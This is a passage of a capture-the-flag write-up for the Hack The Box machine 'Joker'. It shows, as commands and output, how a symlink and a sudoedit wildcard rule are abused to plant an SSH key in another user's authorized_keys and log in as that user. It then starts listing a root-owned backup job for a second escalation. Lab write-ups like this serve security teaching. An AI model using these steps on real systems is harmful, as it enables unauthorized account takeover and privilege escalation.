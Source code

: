 Looks like the testing directory will work nicely.

```
werkzeug@joker:~$ cd testing
werkzeug@joker:~/testing$ ls
layout.html
```

There is the original layout.html that's meant to be edited by sudoedit. We need to create another directory inside of here to exploit that second wildcard. Then create our symbolic link.

```
werkzeug@joker:~/testing$ mkdir test
werkzeug@joker:~/testing$ cd test
werkzeug@joker:~/testing/test$ ln -s /home/alekos/.ssh/authorized_keys layout.html
werkzeug@joker:~/testing/test$ ls -al
total 8
drwxrwxr-x 2 werkzeug werkzeug 4096 Dec 31 01:02 .
drwxr-xr-x 3 werkzeug werkzeug 4096 Dec 31 01:01 ..
lrwxrwxrwx 1 werkzeug werkzeug   33 Dec 31 01:02 layout.html -> /home/alekos/.ssh/authorized_keys
```

Our symbolic link is in place. Let's edit and put our public ssh key in.

```
werkzeug@joker:/$ sudoedit -u alekos /var/www/testing/test/layout.html

```

Now we can ssh in as alekos. 

```
root@kali:~/htb/joker# ssh alekos@10.10.10.21
Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
alekos@joker:~$  
```
Now we can grab the user.txt flag.

### Second Privilege Escalation

We've gotten over quite a few hurdles but we still aren't there as we have yet to get a root shell. Inside of alekos' home directory are two interesting directorys, `development` and `backup`. `backup` is a folder containing backups of what looks to be the `development` folder which based off timestamps is running every five minutes. We can also see the tar files are owned by root. 

```
alekos@joker:~$ ls -al
total 116
drwxr-xr-x 7 alekos alekos  4096 May 19  2017 .
drwxr-xr-x 3 root   root    4096 May 16  2017 ..
drwxrwx--- 2 root   alekos 73728 Dec 31 01:20 backup
-rw------- 1 root   root       0 May 17  2017 .bash_history
-rw-r--r-- 1 alekos alekos   220 May 16  2017 .bash_logout
-rw-r--r-- 1 alekos alekos  3771 May 16  2017 .bashrc
drwx------ 2 alekos alekos  4096 May 17  2017 .cache
drwxr-x--- 5 alekos alekos  4096 May 18  2017 development
drwxr-xr-x 2 alekos alekos  4096 May 17  2017 .nano
-rw-r--r-- 1 alekos alekos   655 May 16  2017 .profile
drwxr-xr-x 2 alekos alekos  4096 May 20  2017 .ssh
```